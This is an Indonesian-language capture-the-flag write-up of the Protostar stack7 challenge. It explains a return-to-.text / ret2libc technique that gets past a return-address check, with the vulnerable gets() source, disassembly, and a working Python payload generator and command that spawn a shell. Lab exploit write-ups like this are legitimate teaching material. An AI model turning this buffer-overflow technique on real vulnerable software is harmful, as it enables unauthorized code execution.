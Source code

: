 ```yaml
---
layout: post
title: "Protostar: stack7"
date: 2020-09-09 20:05:03 +0700
categories: [reversing, protostar]
---
```


Sekarang kita telah sampai pada challenge terakhir protostar bertajuk stack, stack7. Seperti biasa kita akan coba periksa stack7 dengan utilitas `file`.

```bash
file stack7
```

output:
![output file stack7](/images/protostar-stack7-1.png)

Sepertinya tidak ada yang perlu diperhatikan, sekarang mari kita lihat source codenya.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

Dibandingkan dengan [stack6](/belajar-reversing-protostar-stack6) kemarin perbedaan terletak pada pengecekan. Kali ini pengecekan return address lebih ketat, kita tidak boleh return ke address 0xbxxxxxxx. Jadi sudah pasti kita tidak bisa return ke stack dan jika kalian perhatikan kembali pada [stack6](/belajar-reversing-protostar-stack6) kemarin address fungsi system memenuhi kondisi 0xbxxxxxxx yang berarti kita tidak bisa melakukan ret2libc!
Menengok ke [halaman resmi stack7](http://exploit.education/protostar/stack-seven/), untuk menyelesaikan challenge ini kita bisa menggunakan [**return to .text**](https://halcyonic.net/2019-09-30-return-to-text/). Jika dalam ret2libc kita mereturn ke libc yang diload, ret2.text berarti kita mereturn ke segment .text. Dalam komputasi, segmen kode, juga dikenal sebagai segmen teks atau hanya sebagai teks, adalah bagian dari file objek atau bagian yang sesuai dari ruang alamat virtual program yang berisi instruksi yang dapat dieksekusi -[wikipedia](https://en.wikipedia.org/wiki/Code_segment).

Segment .text dari stack7 dapat kita lihat dengan bantuan `objdump`.

```bash
objdump -d .j .text stack7
```

output:
![output command diatas](/images/protostar-stack7-2.png)

Dapat kalian lihat pada gambar diatas, segment .text berisikan entry point dan jika kalian scroll kebawah kalian dapat melihat hasil disassembly fungsi **main** dan **getpath**. Jika kalian ingin melihat daftar segment yang terdapat dalam executable stack7 kalian dapat memenfaatkan opsi **-h** dari objdump `objdump -h stack7` atau bisa juga dengan menggunakan gdb, gunakan `info file` jika kalian sudah meload executable stack7 pada gdb.

Sekarang bagaimana kita akan memanfaatkan segment .text untuk mendapatkan akses shell? Dengan adanya pengecekan kita tidak bisa mereturn ke stack atau libc. Namun jika kalian cermati address dari segment .text berkisar antara **0x08048410 - 0x080485fc** sehingga kita bisa mereturn ke instruksi yang ada disini. Pengecekan hanya terdapat pada fungsi getpath, jadi setelah keluar dari getpath kita bisa mereturn ke address manapun. Perhatikan ilustrasi payload dari [stack6](/belajar-reversing-protostar-stack6) berikut.

![ilustrasi payload stack6](/images/protostar-stack6-10.png)

Pada stack6 kita berhasil memanggil fungsi system lalu keluar executable dengan fungsi exit. Pada stack7 ini kita bisa memanggil fungsi perantara lalu keluar menuju fungsi system. Cukup menggeser payload kita 4 byte lalu menyisipkan address fungsi perantara sebelum address system. Berikut ilustrasi payload yang akan kita gunakan pada stack7.
![ilustrasi payload stack7](/images/protostar-stack7-3.png)

Sekarang kita akan mencari perantara.

```bash
objdump -d -j .text stack7
objdump -d -j .text -M intel stack7 #jika lebih suka hasil disassembly dalam format intel
```

output:
![output perintah diatas](/images/protostar-stack7-4.png)

Beruntung sekali fungsi terakhir yang ditampilkan sepertinya dapat kita gunakan.

```nasm
080485d0 <__do_global_ctors_aux>:
 80485d0:	55                   	push   ebp
 80485d1:	89 e5                	mov    ebp,esp
 80485d3:	53                   	push   ebx
 80485d4:	83 ec 04             	sub    esp,0x4
 80485d7:	a1 54 96 04 08       	mov    eax,ds:0x8049654
 80485dc:	83 f8 ff             	cmp    eax,0xffffffff
 80485df:	74 13                	je     80485f4 <__do_global_ctors_aux+0x24>
 80485e1:	bb 54 96 04 08       	mov    ebx,0x8049654
 80485e6:	66 90                	xchg   ax,ax
 80485e8:	83 eb 04             	sub    ebx,0x4
 80485eb:	ff d0                	call   eax
 80485ed:	8b 03                	mov    eax,DWORD PTR [ebx]
 80485ef:	83 f8 ff             	cmp    eax,0xffffffff
 80485f2:	75 f4                	jne    80485e8 <__do_global_ctors_aux+0x18>
 80485f4:	83 c4 04             	add    esp,0x4
 80485f7:	5b                   	pop    ebx
 80485f8:	5d                   	pop    ebp
 80485f9:	c3                   	ret
 80485fa:	90                   	nop
 80485fb:	90                   	nop
```

Kita tidak perlu mereturn ke keseluruhan fungsi diatas, cukup pada bagian instruksi **ret** saja sehingga tidak mengacaukan stack yang telah kita manipulasi. Salin address instruksi ret, sisipkan pada payload yang kita gunakan pada [stack6](/belajar-reversing-protostar-stack7.png). Kita tidak perlu mencari offset karena ukuran buffernya sama dengan stack6, begitu juga dengan address system, address exit, string '/bin/sh' pada libc.

```python
import struct

offset=80*"A" #padding
perantara=struct.pack("<I", 0x80485f9) #(eip) return ke instruksi ret
system=struct.pack("<I", 0xb7ecffb0) #return ke system setelah instruksi ret selesai
exit=struct.pack("<I", 0xb7ec60c0) #keluar dari executable
args=struct.pack("<I", 0xb7e97000 + 0x11f3bf) #argumen untuk system
print(offset+perantara+system+exit+args)
```

Diatas merupakan script python yang akan menghasilkan payload untuk kita. Simpan dengan nama payload.py pada directory /tmp. Lalu kita jalankan stack7 dengan input payload kita.

```bash
(python /tmp/payload.py; cat) | ./stack7
```

output:
![menjalankan stack7 dengan payload](/images/protostar-stack7-5.png)

Berhasil! Selain menggunakan fungsi system, disini kita juga bisa menggunakan shellcode, selamat mencoba.

